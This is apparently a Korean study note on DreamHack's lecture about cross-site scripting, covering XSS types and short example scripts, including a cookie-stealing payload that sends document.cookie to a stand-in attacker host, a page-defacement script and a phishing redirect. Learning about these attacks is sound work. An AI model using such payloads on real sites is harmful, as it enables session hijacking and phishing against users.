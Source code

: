 ```yaml
---
layout: single
title:  "ClientSide : XSS"
categories: DreamHack
tag: [DreamHack, WebHacking, XSS]
toc: true
author_profile: false
---
```


# ClientSide : XSS

[ClientSide : XSS](https://dreamhack.io/lecture/courses/173)

클라이언트 사이드 취약점은 웹페이지 이용자를 대상으로 공격할 수 있는 취약점이다. 세션과 쿠키 정보를 탈취해 해당 계정을 악용할 수 있다.

오늘은 클라이언트 사이드 취약점의 대표적인 공격인 Cross Site Scripting(XSS)의 종류와 어떠한 상황에서 일어나는지 공부한다.


[Cross Site Scripting 의 약어는 CSS가 정상이지만 html을 꾸밀때 사용되는 CSS와 혼돈을 피하기 위해 XSS를 사용한다]

## XSS

XSS는 공격자가 웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에서 그 스크립트를 실행할 수 있습니다. 공격자는 스 스크립트를 이용해 세션 정보를 얻어 해당 계정으로 임의의 기능을 수행할 수 있다.

----
예) 

드림핵 사이트에서 XSS취약점 발견

공격자가 오리진 권한으로 악성 스크립트 삽입

이용자가 악성 스크립트가 포함된 페이지 방문

스크립트가 실행후 쿠키 및 세션 탈취

-----

해당 취약점은 SOP 보안정책이 등장하면서 힘들어 졌지만, 이를 우회ㅘ는 다양한 기술이 나오면서 XSS 공격은 지속되고 있다

### XSS 발생 예시와 종류

XSS 공격은 이용자가 삽입한 내용을 출력하는 기능에서 발생한다. XSS는 발생 형태에 따라서 다양한 종류로 구분된다.

|종류|설명|
|---|---|
|Stored XSS|악성 스크립트가 <U>서버</U>에 저장되고 <U>서버</U>의 응답에 담겨오는 XSS|
|Reflected XSS|악성 스크립트가 <U>URL</U>에 삽입되고서 <U>서버</U>의 응답에 담겨오는 XSS|
|DOM-based XSS| 악성스크립트가 <U>URL Fragment</U>에 삽입되는 XSS|
|Universal XSS|클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점으로 SOP우회하는 XSS|

### XSS 스크립트의 예시

1. 쿠키 및 세션 탈취 공격 코드
   
 ```html
<script>
    alert("hello");
    //"hello 문자열 alert 실행
    document.cookie;
    //현재 페이지의 쿠키 
    //(return type : string)
    alert(document.cookie);
    //현재 페이지의 쿠키를 alert 실행
    document.cookie = "name=test;";
    //쿠키 생성
    //new Image()는 이미지를 생성하는 함수, src는 이미지의 주소를 지정
    //"http://hacker.dreamhack.io/?cookie=현재페이지의 쿠키" 주소를 요청해 공격자 주소로 현재 페이지의 쿠키 요청
    new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;

</script>

   ```

2. 페이지 변조 공격 코드

```html
<script>
    document;
    // 이용자의 페이지 정보 접근
    document.write("Hacked By DreamHack !");
    //이용자의 페이지에 데이터를 삽입
</script>
```
3. 위치 이동 공격 코드

```html
<script>
    location.href = "http://hacker.dreamhack.io.phishing";
    //이용자의 위치를 변경
    //피싱 공격 등으로 사용됨
    
    window.open("http://hacker.dreamhack.io/")
    //새 창 열기
</script>
```

### Stored XSS

Stored XSS는 서버의 데이터베이스 또는 파일 등의 형태로 저장된 악성 스크립트를 조회할 때 발생하는 XSS이다.

대표적으로 게시물과 댓글에 악성 스크립트를 포함해 업로드 하는 방식이 있다.

게시물의 내용을 그대로 출력하는 모듈일 경우 < script > 태그나 HTML 태그를 삽입해서 Stored XSS 발생시킬수 있다.

### Reflected XSS

Reflected XSS는 서버가 악성 스크립트가 담긴 요청을 출력할때 발생한다. 대표적으로 게시물을 조회하기 위한 검색창에서 스크립트를 포함하는 방식이 있다.

Reflected XSS 는 Stored XSS와 다르게 URL과 같은 이용자의 요청에서 발생한다. 공격을 유도하기 위해서는 타 이용자에게 악성 스크립트가 포함된 링크에 접속하도록 유도해야한다.

이용자에게 링크를 직접전달하는 방법은 이용자가 눈치챌 수 있기 때문에 주로 Click Jacking 또는 Open Redirect등 다른 취약점과 연계해서 사용한다